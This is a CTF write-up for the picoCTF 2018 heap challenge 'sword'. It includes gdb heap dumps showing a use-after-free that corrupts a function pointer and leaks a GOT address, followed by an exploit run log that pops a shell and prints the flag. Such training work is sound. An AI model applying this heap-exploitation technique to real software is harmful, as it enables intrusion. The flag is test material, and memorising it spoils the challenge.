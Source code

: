 # sword - Points: 800 - (Solves: 78)

Can you spawn a [shell][1] and get the flag?
Connect with nc 2018shell2.picoctf.com 43469.
[Source][2].
[libc.so.6][3]

[1]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/sword
[2]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/sword.c
[3]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/libc.so.6

## Hints

- ever heard of use after free?
- Make sure you are run/debug with the provided libc on the shell server

---

```txt
% ctags -x --c-kinds=vd sword.c
ALARM_TIME       macro        11 sword.c          #define ALARM_TIME 30
FORGE_TIME       macro        10 sword.c          #define FORGE_TIME 2
MAX_SWORD_LEN    macro         9 sword.c          #define MAX_SWORD_LEN 0x100
MAX_SWORD_NUM    macro         7 sword.c          #define MAX_SWORD_NUM 6
READ_INT_BUF_LEN macro         8 sword.c          #define READ_INT_BUF_LEN 32
sword_lists      variable     27 sword.c          struct sword_list_s sword_lists[MAX_SWORD_NUM];
```

Create 1st chunks and "harden" it with 256 length character 'A'.

```sh
--- sword_lists ------------------------------------
$1 = {{
    is_used = 1,
    sword = 0x7d7010
  }, {
    is_used = 1,
    sword = 0x7d7040
  }, {
    is_used = 0,
    sword = 0x0
  }, {
    is_used = 0,
    sword = 0x0
  }, {
    is_used = 0,
    sword = 0x0
  }, {
    is_used = 0,
    sword = 0x0
  }}
--- heap mapping -----------------------------------
0x7d7010:       0x0000000000000000      0x00000000007d7040
0x7d7020:       0x0000000000400b9d      0x0000000000000000
0x7d7030:       0x0000000000000000      0x0000000000000031
0x7d7040:       0x4141414141414141      0x0000000000602020
0x7d7050:       0x4141414141414141      0x4141414100000000
0x7d7060:       0x4141414141414141      0x0000000000020fa1
0x7d7070:       0x4141414141414141      0x4141414141414141
0x7d7080:       0x4141414141414141      0x4141414141414141
0x7d7090:       0x4141414141414141      0x4141414141414141
0x7d70a0:       0x4141414141414141      0x4141414141414141
0x7d70b0:       0x4141414141414141      0x4141414141414141
0x7d70c0:       0x4141414141414141      0x4141414141414141
0x7d70d0:       0x4141414141414141      0x4141414141414141
0x7d70e0:       0x4141414141414141      0x4141414141414141
0x7d70f0:       0x4141414141414141      0x4141414141414141
0x7d7100:       0x4141414141414141      0x4141414141414141
(gdb) p *sword_lists[1].sword
$5 = {
  name_len = 1094795585,
  weight = 1094795585,
  sword_name = 0x602020 "\220\326\024ǅ\177",
  use_sword = 0x4141414141414141,
  is_hardened = 0
}
```

Result:

```sh
% py solve.py REMOTE
[*] '/home/zzzz/pico18/pwn/sword/sword'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
[*] '/home/zzzz/pico18/pwn/sword/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell2.picoctf.com on port 43469: Done
[*] puts @ plt    : 0x7fcf4aa51690
[*] libc          : 0x7fcf4a9e2000
[*] bin_sh        : 0x7fcf4ab6ed57
[*] system        : 0x7fcf4aa27390
[*] Switching to interactive mode
total 1920
drwxr-x---   2 hacksports sword_0       4096 Sep 28 08:29 .
drwxr-x--x 576 root       root         53248 Sep 30 03:50 ..
-r--r-----   1 hacksports sword_0         45 Sep 28 15:12 flag.txt
-rwxr-sr-x   1 hacksports sword_0    1868984 Sep 28 15:08 libc.so.6
-rwxr-sr-x   1 hacksports sword_0      18080 Sep 28 15:12 sword
-rw-rw-r--   1 hacksports hacksports    6358 Sep 28 15:12 sword.c
-rwxr-sr-x   1 hacksports sword_0        109 Sep 28 15:12 xinet_startup.sh
$ cat flag.txt
picoCTF{usE_aFt3R_fr3e_1s_aN_1ssu3_05365660}
$
```
